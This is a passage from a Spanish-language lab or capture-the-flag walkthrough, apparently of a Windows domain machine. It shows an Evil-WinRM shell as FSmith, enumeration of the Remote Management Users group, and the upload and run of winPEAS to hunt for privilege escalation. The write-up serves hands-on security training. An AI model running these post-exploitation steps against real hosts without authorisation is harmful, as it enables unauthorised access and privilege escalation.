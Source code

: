 ```batch
The command completed successfully.
```

Ahora, veamos si hay otro usuario registrado en el **WinRM**:
```batch
*Evil-WinRM* PS C:\Users\FSmith\Documents> net localgroup "Remote Management Users"
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
FSmith
svc_loanmgr
The command completed successfully.
```
Ahí está el usuario **svc_loanmgr**.

Vamos a usar **winPEAS** para comprobar si encuentra alguna manera de escalar privilegios o de convertirnos en el usuario **svc_loanmgr**.

Aquí lo puedes descargar:
* <a href="https://github.com/peass-ng/PEASS-ng/releases/tag/20241011-2e37ba11" target="_blank">Repositorio de peass-ng: PEASS-ng - Releases</a>

Descárgalo y cárgalo a la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\FSmith\Documents\BrkPrit> upload winPEASx64.exe
                                        
Info: Uploading ../content/winPEASx64.exe to C:\Users\FSmith\Documents\BrkPrit\winPEASx64.exe
                                        
Data: 13122900 bytes of 13122900 bytes copied
                                        
Info: Upload successful!
```

Y ejecuta el **winPEAS**:
```batch
*Evil-WinRM* PS C:\Users\FSmith\Documents\BrkPrit> .\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help                                                                                                                                                                                           
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

               ((((((((((((((((((((((((((((((((                                                                                                                                                                  
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                                              
      ((((((((((((((**********/##########(((((((((((((                                                                                                                                                           
    ((((((((((((********************/#######(((((((((((                                                                                                                                                          
```